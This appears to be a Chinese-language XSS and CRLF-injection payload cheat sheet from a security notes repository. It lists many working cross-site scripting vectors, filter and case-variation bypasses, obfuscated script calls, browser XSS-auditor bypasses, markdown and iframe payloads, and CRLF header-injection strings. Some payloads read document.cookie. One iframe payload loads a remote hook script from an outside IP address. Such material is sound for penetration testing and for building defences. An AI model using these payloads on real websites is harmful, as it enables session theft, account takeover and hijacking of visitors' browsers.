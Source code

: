 Payload
================================

常用
---------------------------------------------------

- ``<script>alert(/xss/)</script>``
- ``<svg onload=alert(document.domain)>``
- ``<img src=document.domain onerror=alert(document.domain)>``
- ``<M onmouseover=alert(document.domain)>M``
- ``<marquee onscroll=alert(document.domain)>``
- ``<a href=javascript:alert(document.domain)>M</a>``
- ``<body onload=alert(document.domain)>``
- ``<details open ontoggle=alert(document.domain)>``
- ``<embed src=javascript:alert(document.domain)>``

大小写绕过
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<sCrIpT>alert(1)</sCrIpT>``
- ``<ScRiPt>alert(1)</ScRiPt>``
- ``<sCrIpT>alert(1)</ScRiPt>``
- ``<ScRiPt>alert(1)</sCrIpT>``
- ``<img src=1 onerror=alert(1)>``
- ``<iMg src=1 oNeRrOr=alert(1)>``
- ``<ImG src=1 OnErRoR=alert(1)>``
- ``<img src=1 onerror="alert(&quot;M&quot;)">``

- ``<marquee onscroll=alert(1)>``
- ``<mArQuEe OnScRoLl=alert(1)>``
- ``<MaRqUeE oNsCrOlL=alert(1)>``

各种alert
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<script>confirm(1)</script>``
- ``<script>prompt(1)</script>``
- ``<script>alert('1')</script>``
- ``<script>alert("1")</script>``
- ``<script>alert`1`</script>``
- ``<script>(alert)(1)</script>``
- ``<script>a=alert,a(1)</script>``
- ``<script>[1].find(alert)</script>``
- ``<script>top["al"+"ert"](1)</script>``
- ``<script>top["a"+"l"+"e"+"r"+"t"](1)</script>``
- ``<script>top[/al/.source+/ert/.source](1)</script>``
- ``<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>``

伪协议
---------------------------------------------------

- ``<a href=javascript:/0/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/00/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/000/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/M/,alert(%22M%22)>M</a>``


Chrome XSS auditor bypass
---------------------------------------------------

- ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- ``<base href=javascript:/M/><a href=,alert(1)>M</a>``
- ``<base href=javascript:/M/><iframe src=,alert(1)></iframe>``

长度限制
---------------------------------------------------

:: 

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

jquery sourceMappingURL
---------------------------------------------------
    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``

图片名
---------------------------------------------------
    ``"><img src=x onerror=alert(document.cookie)>.gif``

过期的payload
---------------------------------------------------
- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

css
---------------------------------------------------

::

    <div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>


markdown
---------------------------------------------------

::

    [a](javascript:prompt(document.cookie))
    [a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
    <&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
    ![a'"`onerror=prompt(document.cookie)](x)
    [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
    [a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
    ![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)


iframe
---------------------------------------------------

::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- ``<iframe src=javascript:alert(1)></iframe>``
- ``<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>``
- ``<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>``
- ``<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>``
- ``<iframe src=https://baidu.com width=1366 height=768></iframe>``
- ``<iframe src=javascript:alert(1) width=1366 height=768></iframe``

form
---------------------------------------------------

- ``<form action=javascript:alert(1)><input type=submit>``
- ``<form><button formaction=javascript:alert(1)>M``
- ``<form><input formaction=javascript:alert(1) type=submit value=M>``
- ``<form><input formaction=javascript:alert(1) type=image value=M>``
- ``<form><input formaction=javascript:alert(1) type=image src=1>``

meta
---------------------------------------------------

``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``

CRLF
---------------------------------------------------

- 探测漏洞

	``%0d%0aheader:header``
	``%0aheader:header``
	``%0dheader:header``
	``%23%0dheader:header``
	``%3f%0dheader:header``
	``/%250aheader:header``
	``/%25250aheader:header``
	``/%%0a0aheader:header``
	``/%3f%0dheader:header``
	``/%23%0dheader:header``
	``/%25%30aheader:header``
	``/%25%30%61header:header``
	``/%u000aheader:header``

- 开放重定向

	``/www.google.com/%2f%2e%2e%0d%0aheader:header``

- CRLF-XSS

	``%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e``

- XSS绕过

	``%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/``

- Location

	``%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E``

